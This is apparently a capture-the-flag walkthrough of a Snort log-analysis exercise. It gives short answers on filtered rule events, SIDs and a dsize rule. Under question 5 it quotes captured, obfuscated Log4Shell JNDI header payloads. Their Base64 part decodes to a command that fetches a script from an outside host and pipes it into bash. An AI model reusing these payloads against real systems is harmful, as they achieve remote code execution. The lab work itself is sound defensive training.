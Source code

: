 Answer: `26`






### 2. How many rules were triggered? 

We check again the summary from snort and find the `filtered events`.


```bash
===============================================================================
+-----------------------[filtered events]--------------------------------------
| gen-id=1      sig-id=21003730   type=Limit     tracking=dst count=1   seconds=3600 filtered=2
| gen-id=1      sig-id=21003731   type=Limit     tracking=dst count=1   seconds=3600 filtered=1
| gen-id=1      sig-id=21003728   type=Limit     tracking=dst count=1   seconds=3600 filtered=1
```

Answer: `4`

### 3. What are the first six digits of the triggered rule sids?

In the output from `question 2`. 

Answer: `210037`


### 4. What is the number of detected packets?


We can build a rule to check the size with `dsize`:

`alert tcp any any <> any any (msg:"Size check";dsize:770<>855;sid:10000001;rev:1;)`


Answer: `41`

### 5. What is the name of the used encoding algorithm?

We create a log with `-l` and analyse it with `strings`.

I had to search a while but eventually I found it:

```bash

Host: 198.71.247.91:80
User-Agent: ${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=}
Referer: ${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=}


```
There is `Base64` in the string from `User-Agent`.
